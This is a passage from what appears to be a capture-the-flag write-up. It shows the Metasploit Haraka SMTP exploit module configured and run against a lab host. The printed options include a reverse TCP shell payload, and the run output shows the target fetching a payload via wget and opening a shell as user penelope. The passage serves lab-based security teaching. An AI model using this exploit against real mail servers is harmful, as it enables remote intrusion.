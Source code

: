 
#### Metasploit

Alternatively, there is a metasploit module that also worked. Here’s my
configuration:

    
    
    msf5 exploit(linux/smtp/haraka) > options
    
    Module options (exploit/linux/smtp/haraka):
    
       Name        Current Setting        Required  Description
       ----        ---------------        --------  -----------
       SRVHOST     0.0.0.0                yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0                                                                                       
       SRVPORT     8008                   yes       The local port to listen on.
       SSL         false                  no        Negotiate SSL for incoming connections
       SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)                                                                                                           
       URIPATH                            no        The URI to use for this exploit (default is random)
       email_from  0xdf@redcross.htb      yes       Address to send from
       email_to    penelope@redcross.htb  yes       Email to send to, must be accepted by the server
       rhost       10.10.10.113           yes       Target server
       rport       1025                   yes       Target server port
    
    
    Payload options (linux/x64/shell_reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  tun0             yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   linux x64
    
    

Now run it to get a shell as actual penelope:

    
    
    msf5 exploit(linux/smtp/haraka) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:443
    [*] Exploiting...
    [*] Using URL: http://0.0.0.0:8008/PxA0ZIx
    [*] Local IP: http://10.1.1.41:8008/PxA0ZIx
    [*] Sending mail to target server...
    [*] Client 10.10.10.113 (Wget/1.18 (linux-gnu)) requested /PxA0ZIx
    [*] Sending payload to 10.10.10.113 (Wget/1.18 (linux-gnu))
    [*] Command shell session 1 opened (10.10.14.14:443 -> 10.10.10.113:47192) at 2019-04-02 14:35:27 -0400
    [+] Triggered bug in target server (plugin timeout)
    [*] Command Stager progress - 100.00% done (111/111 bytes)
    [*] Server stopped.
    id
    uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
    